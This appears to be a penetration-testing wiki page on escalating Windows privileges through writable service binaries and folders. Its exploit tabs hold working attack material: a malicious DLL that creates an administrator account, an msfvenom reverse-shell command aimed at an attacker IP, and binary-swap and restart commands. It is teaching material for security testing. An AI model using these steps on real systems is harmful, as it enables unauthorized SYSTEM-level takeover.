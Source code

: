 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak File/Folder Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

### Service Binary Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Given sufficient permissions over a service's binary, swapping it with our own binary enables us to gain code execution as the user configured to run this service.

To identify weaknesses in service binary permissions, we can take the following steps: retrieve a complete list of all service binary files, retrieve their permissions, identify specific ones for our controlled user.

We can perform such enumeration by using one of the following methods:

#### CMD

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt
for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

#### PowerShell

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $serviceName = $_.Name; $path = $_.PathName; $startName = $_.StartName; if ($path -ne $null -and $path -ne "") { $formattedPath = if ($path -match '.*\.exe') { if ($path -match '^"(.+?\.exe)') { $matches[1] } else { $path -replace '^(.*\.exe).*', '$1' } } else { $path }; $acl = try { Get-Acl -Path $formattedPath -ErrorAction Stop } catch { $null }; if ($acl -ne $null) { $relevantACE = $acl | Select-Object -ExpandProperty Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' }; if ($relevantACE) { [PSCustomObject]@{ ServiceName = $serviceName; FormattedPath = $formattedPath; StartName = $startName; ACL = $relevantACE | Select-Object -Property IdentityReference, FileSystemRights | Format-List | Out-String } } } } } | Sort-Object -Property FormattedPath -Unique | Format-List
```

#### PowerUp

```powershell
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

#### winPEAS

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
If we find an editable service binary, we can simply replace it with a malicious one as follow:

```powershell
# Backup the binary
copy /y "c:\Program Files\File Permissions Service\filepermservice.exe" c:\Temp\filepermservice_backup.exe

# Hijack the binary 
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

Then, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

### Service DLL Hijacking

{% hint style="info" %}
DLL hijacking can be applied in many other cases, but this section focuses solely on services. For a more comprehensive approach, please refer to [this page](../dll-hijacking.md).
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
In case you have write permissions over the service binary folder, we can write our DLL in and then hijack the DLL search order. Here is the default DLL search order in windows (in safe mode which is the default):&#x20;

1. The executable directory.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

We can enumerate permissive service folders by using the following PowerShell command

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $s = $_.Name; $p = $_.PathName; $start = $_.StartName; if ($p -ne $null -and $p -ne "") { $f = if ($p -match '.*\.exe') { if ($p -match '^"(.+\\)') { $matches[1] } else { $p -replace '^(.*\\).*', '$1' } } else { $p }; $a = try { (Get-Acl -Path $f -ErrorAction Stop).Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' } } catch { $null }; if ($a) { [PSCustomObject]@{ ServiceName = $s; StartName = $start; ExecutableFolder = $f; FolderACL = $a | Select-Object IdentityReference, FileSystemRights | Format-List | Out-String } } } } | Sort-Object -Property ExecutableFolder -Unique | Format-List
```

If we find a writable service folder, we first want to exfiltrate its service binary to a local windows machine. On this controlled computer, download [Process Monitor (procmon)](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to monitor for missing or hijackable DLLs.

In procomon, specify this three filters (edit the service name with yours):

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-29-36.png" alt=""><figcaption><p>Procmon Filters</p></figcaption></figure>

We may find some `CreateFile` actions with a `NAME NOT FOUND` result for a dll inside of the writable service binary folder. If so we can use this DLL name for DLL Hijacking !

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-32-10.png" alt=""><figcaption><p>DLL Not Found</p></figcaption></figure>
{% endtab %}

{% tab title="Exploit" %}
If we've found a DLL we can hijack, the hard part is over. Now let's compile a custom DLL using the following code (in this example, the vulnerable DLL is named "hijackme.dll").

{% code title="hijackme.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwned P@ssword! /add");
  	    i = system ("net localgroup administrators pwned /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

```bash
#Compile it
x86_64-w64-mingw32-gcc hijackme.cpp --shared -o hijackme.dll
```

Or use msfvenom to directly generate a malicious DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> EXITFUNC=thread -f dll -o hijackme.dll
```

Now, after transferring the DLL to the target host, copy the DLL to the path we found.

```powershell
# Hijack the DLL 
copy /y c:\Temp\hijackme.dll "C:\Program Files\Folder Permissions Service\hijackme.dll"
```

Finaly, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
